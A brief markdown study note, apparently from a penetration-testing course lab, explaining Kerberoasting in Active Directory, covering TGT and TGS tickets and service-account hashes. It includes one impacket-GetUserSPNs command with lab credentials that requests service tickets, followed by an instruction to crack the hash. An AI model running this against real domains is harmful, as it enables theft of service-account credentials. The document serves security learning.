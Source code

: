 - Takes advantage of **`Service Accounts`**
- **==TGS encrypted with Server Account's hash==**
- TGT -> Ticket Granting Ticket (Every authenticated user on domain can request this from DC or KDC (Key Distribution Center))
- TGS -> Ticket Granting Service (Service ticket that provides server interaction access)
![[Pasted image 20250329164841.png]]
# Attack
---
- `impacket-GetUserSPNs MARVEL.local/fcastle:Password1 -dc-ip 10.0.1.4 -request`
	- Requesting TGS from DC
- Crack the hash got from TGS
